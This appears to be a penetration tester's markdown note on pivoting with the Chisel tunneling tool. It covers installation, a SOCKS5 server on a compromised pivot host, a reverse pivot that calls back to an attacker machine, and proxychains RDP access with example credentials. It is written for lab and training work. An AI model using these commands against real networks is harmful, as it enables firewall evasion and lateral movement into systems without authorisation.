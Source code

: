 ```yaml
---
tags:
  - SSHTunnelling
  - Exploitation
  - Tunnelling
  - Tooling
---
```

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment.

Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network. Chisel is very similar to crowbar though achieves much higher performance.

[Tunneling with Chisel and SSF | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

#### Installation

```shell-session
git clone https://github.com/jpillora/chisel.git
```

```shell-session
cd chisel
```

We will need the programming language `Go` installed on our system to build the Chisel binary

```shell-session
go build
```

##### Prebuilt

```shell-session
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```

```
gzip -d chisel_1.7.7_linux_amd64.gz
```

```
mv chisel_* chisel && chmod +x ./chisel
```

```
sudo ./chisel server --reverse 
```

#### Usage

##### Running the Chisel Server on the Pivot Host

```shell-session
./chisel server -v -p 1234 --socks5
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host.

##### Connecting to the Chisel Server

```shell-session
./chisel client -v 10.129.202.64:1234 socks
```

##### Setup Proxychains

```shell-session
[!bash!]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

There may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

#### Starting the Chisel Server on our Attack Host

```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

#### Connecting the Chisel Client to our Attack Host

```shell-session
./chisel client -v 10.10.14.17:1234 R:socks
```

#### Editing & Confirming proxychains.conf

```shell-session
[!bash!]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

